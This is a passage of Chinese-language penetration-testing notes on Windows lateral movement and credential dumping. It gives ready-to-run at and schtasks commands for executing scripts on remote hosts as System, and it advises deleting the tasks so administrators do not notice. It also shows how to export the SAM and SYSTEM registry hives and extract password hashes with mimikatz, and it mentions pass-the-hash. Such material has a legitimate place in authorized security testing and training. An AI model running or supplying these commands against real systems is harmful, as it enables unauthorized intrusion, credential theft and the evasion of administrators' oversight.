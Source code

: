 ## 3.at(Windows server 2008之前)计划任务命令:

```
at \\192.168.1.10 4:11PM C:\shell.bat

创建之后会有一个任务ID，指定任务ID可以删除(执行完后一定要删除，防止管理员察觉到)
at \\192.168.1.10 7 /delete

计划任务执行ipconfig,并将结果输出到c:\1.txt:
at \\10.10.10.11 9:00pm cmd.exe /c "ipconfig >c:\1.txt"

使用type命令远程读取c:\1.txt:
type \\10.10.10.11\c$\1.txt
```

## 4.schtasks

```
(前提:建立IPC连接)

在远程主机上创建一个名称为"test"的计划任务,该计划任务在开机时启动，启动程序为C:\calc.bat,启动权限为System,命令如下:
schtasks /create /s 10.10.10.11 /tn test /sc onstart /tr C:\calc.bat /ru system /f

执行如下命令运行"test"计划任务:
schtasks /run /s 10.10.10.11 /i /tn "test"

在使用schtasks命令时,会在系统上留下日志文件c:\Windows\Tasks\SchedLgU.txt
如果执行schtasks命令后并没有回显,可以配合ipc执行文件，使用type命令远程查看执行结果.
```

利用条件：开启139、445端口；管理员开启了默认共享。

## 5.HashDump
windows操作系统通常使用两种方法对用户的明文密码进行加密处理.在域环境中,用户信息存储在ntds.dit中,加密后为hash.
windows的密码分为LM Hash 和NTLM Hash

LM Hash，“LAN Manager Hash”，本质是DES加密，还是硬编码密钥，从Windows Vista和Windows Server 2008开始默认禁用，dump出的LM Hash为“**aad**3b435b51404eeaad3b435b51404ee”表示为空或被禁用。

NTLM Hash，“New Technology LM Hash”，MD4加密。

Hash散列可以通过在线数据库、彩虹表等来破解，也可以使用PTH（Pass the Hash 哈希传递）来进行横向渗透。

**要想在Windows操作系统中抓取散列值或明文密码，必须将权限提升至System。**本地用户名、散列值和其他安全验证信息都保存在SAM文件中。lsass.exe进程用于实现Windows的本地安全策略和登陆策略。**可以使用工具将散列值和明文密码从内存中的lsass.exe进程或SAM文件中导出。**

e.g. GetPassword、PwDump7、QuarksPwDump、mimikatz、PowerShell

SAM文件保存位置`C:\Windows\System32\config`，该文件不允许复制，但可以使用U盘进入PE系统进行复制。

## 6.mimikatz:

**利用reg导出SAM和System文件，通过mimikatz或者Cain来从文件读取hash。:**
```
reg:
reg save hklm\sam sam.hive
reg save hklm\system system.hive

导出的sam.hive和system.hive 放在mimikatz目录下,再运行下面的代码:
运行mimikatz,并输入:
privilege::debug
"token::elevate" 
lsadump::sam /sam:sam.hive /system:system.hive
```
